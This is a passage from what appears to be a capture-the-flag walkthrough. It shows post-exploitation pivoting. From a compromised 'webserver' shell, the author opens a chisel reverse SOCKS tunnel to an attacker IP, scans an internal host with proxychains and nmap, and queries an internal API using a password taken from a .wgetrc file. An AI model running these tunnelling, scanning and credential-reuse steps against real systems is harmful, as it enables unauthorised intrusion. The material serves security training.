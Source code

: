```bash
$ ./chisel server --reverse --port 8000
2022/02/17 10:20:23 server: Reverse tunnelling enabled
2022/02/17 10:20:23 server: Fingerprint LzAozRttiXAeXYc3/JPzRgMZcVuhFZ5rf50ZrMkLyWU=
2022/02/17 10:20:23 server: Listening on http://0.0.0.0:8000
```

```bash
www-adm@webserver:~$ ./chisel client 10.10.14.109:8000 R:socks
2022/02/17 15:20:39 client: Connecting to ws://10.10.14.109:8000
2022/02/17 15:20:40 client: Connected (Latency 43.482124ms)
```

Scan `172.18.0.101` for open ports. It appears that port 5000 is open.

```bash
$ proxychains nmap -Pn -sT --top-ports 100 172.18.0.101
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-17 10:23 EST
Nmap scan report for 172.18.0.101
Host is up (0.17s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT     STATE SERVICE
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 18.71 seconds
```

It indeed appears to be the HTTP key verification API. Apparently administrative users can "verify the database" using the `/check_db` endpoint. With the API port discovered, tear down the dynamic reverse port forward tunnel and query the API from `webserver`.

```bash
www-adm@webserver:~$ curl http://172.18.0.101:5000
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>. If you are using manual verification, you have to synchronize the magic_num here. Admin users can verify the database using /check_db.","status":200}
```

The `/check_db` endpoint requires HTTP authentication.

```bash
www-adm@webserver:~$ curl http://172.18.0.101:5000/check_db
Invalid HTTP-Auth!
```

Use the credential from `.wgetrc`, `api`:`s3CuR3_API_PW!`. The output is a large JSON object that describes the status of the `mysql` container. It appears to be from Docker's HTTP API.

```bash
www-adm@webserver:~$ curl -u 'api:s3CuR3_API_PW!' http://172.18.0.101:5000/check_db
```